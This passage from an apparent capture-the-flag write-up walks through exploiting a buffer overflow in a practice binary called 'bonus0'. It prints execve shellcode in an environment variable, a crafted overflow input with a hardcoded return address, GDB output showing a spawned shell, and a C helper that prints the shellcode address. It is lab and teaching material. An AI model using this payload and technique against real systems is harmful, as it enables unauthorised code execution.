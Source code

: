     ```bash
    "A" * 4095 + "\n" + "A" * 9 + "\xec\xf8\xff\xbf" +
    ^                   ^
    |                   Arg 2 (9 bytes of garbage data to reach the offset, followed by the address of the `shellcode`)
    Arg 1 (4095 bytes of garbage data + `\n` to fill the `read` buffer since we provide all-in-one input, otherwise the 2nd would be read by the same call to `read` as no EOF is emitted)
    ```

    ```bash
    > export EXPLOIT=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
    > gdb bonus0
    ...
    > (gdb) r < <(python -c 'print "A"*4095 + "\n" + "A"*9 + "\xec\xf8\xff\xbf" + "A"*8';cat)
    Starting program: /home/user/bonus0/bonus0 < <(python -c 'print "A"*4095 + "\n" + "A"*9 + "\xec\xf8\xff\xbf" + "A"*8';cat)
     -
     -
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
    process 3488 is executing new program: /bin/dash
    ls
    bonus0

    whoami
    bonus0
    pwd
    /home/user/bonus0
    ```

13. Amazing! Let’s try it out of GDB.

    ```bash
    > (python -c 'print "A"*4095 + "\n" + "A"*9 + "\xec\xf8\xff\xbf" + "A"*8'; cat) | ./bonus0
     -
     -
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
    ls
    Segmentation fault (core dumped)
    ```


14. Doesn’t work… After some research I found that the shellcode address might be the issue since environment variable addresses may change outside GDB. To test it, we can create a simple C program which will display it.

```c
// File: /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

void main()
{
	printf("Address: %p\n", getenv("EXPLOIT"));
}
```
